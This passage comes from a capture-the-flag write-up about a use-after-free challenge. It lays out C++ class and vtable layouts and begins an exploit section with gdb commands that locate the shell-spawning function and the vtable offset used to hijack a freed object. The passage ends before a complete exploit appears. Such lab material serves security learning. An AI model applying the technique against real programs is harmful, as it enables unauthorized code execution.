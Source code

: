 ```mommy now I get what PATH environment is for :)```
    | age
    | name
    +---

    Human::$vftable@:
    +---
    | &Human::give_shell
    | &Human::introduce
    +---
    ```
  * Man
    ```
    class Man:
    +---
    | +--- (base class Human)
    | | {vfptr}
    | | age
    | | name
    | +---
    +---

    Man::$vftable@Human@:
    +---
    | &Human::give_shell
    | &Man::introduce
    +---
    ```
  * Woman
    ```
    class Woman:
    +---
    | +--- (base class Human)
    | | {vfptr}
    | | age
    | | name
    | +---
    +---

    Woman::$vftable@Human@:
    +---
    | &Human::give_shell
    | &Woman::introduce
    +---
    ```
* According to the challenge's name, it's about use after free bug
  * The freed pointer is not set to NULL and can still be referenced
### Exploit
* Find the address of give_shell()
  * ```sh
    gdb-peda$ x/wx _ZN5Human10give_shellEv
    0x40117a <_ZN5Human10give_shellEv>:     0xe5894855
    ```
* Find the address of Man::introduce
  * ```sh
    gdb-peda$ x/wx _ZN3Man9introduceEv
    0x4012d2 <_ZN3Man9introduceEv>: 0xe5894855
    ```
* Find the offset of give_shell from introduce in Man's vftable
  ```sh
  gdb-peda$ x/10wx 0x401570
  0x401570 <_ZTV3Man+16>: 0x0040117a      0x00000000      0x004012d2      0x00000000
  ```
  * The offset is -8